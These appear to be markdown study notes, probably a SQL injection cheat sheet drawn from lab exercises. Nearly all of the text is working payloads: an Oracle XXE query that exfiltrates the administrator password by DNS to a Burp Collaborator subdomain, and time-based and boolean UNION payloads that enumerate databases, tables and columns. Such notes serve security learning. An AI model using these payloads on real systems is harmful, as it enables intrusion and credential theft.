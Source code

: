 UNION Query                 ---> SQL Vulnerability


DNS Lookup with Data Exfiltration (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--'
```

UNION Query                 ---> SQL Vulnerability
More information in the Cheat Sheet

The response request will be appended to the subdomain (example.ca ---> answer.example.ca)


## Others Examples (VERY GOOD)


>UNION SELECT SLEEP(5), 2, 3, ... ;--       ----> Sleep if number of columns is true (SLEEP(5),2 --> 2 Columns)
>
>UNION SELECT SLEEP(5),2 WHERE database() like 'X%';--     ----> If false = direct response
>
>Ex: `admin' UNION SELECT SLEEP(5),2 where database() like 'sqli%';--`   ---> Find Database Name
>
>repeat the enumeration process from the Boolean based SQL Injection, adding the **SLEEP()** method into the **UNION SELECT** statement.
>
>**Ex** (FROM QUERY MODIFIER): 
>`admin' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'WHAT_WE_FOUND_BEFORE' AND table_name like '%';--`        ---> Table Name
>
>`admin' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema = 'WHAT_WE_FOUND_BEFORE' AND column_name like '%';--`       ---> Column Name
>
>`admin' UNION SELECT SLEEP(5),2 FROM WHAT_WE_FOUND WHERE WHAT_WE_FOUND like '%';--` 
> 												 ---> Check Spicy Information


**Out-of-band** ---> (Check **Query Modifier**)
> database() like '%';--            ----> If there is a database (change the value to guess the database name after)
> TABLE_NAME like '%';--        ----> Same for table
> COLUMN_NAME like '%';--   ----> Same for columns
> 
> from users where username like 'a%  (users = table & username = column) ----> Same for other elements
> 
> 
> **Ex**: `admin' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
> 
> Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named **id**, you'll append that to your original payload (as seen below).
> 
> `admin' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`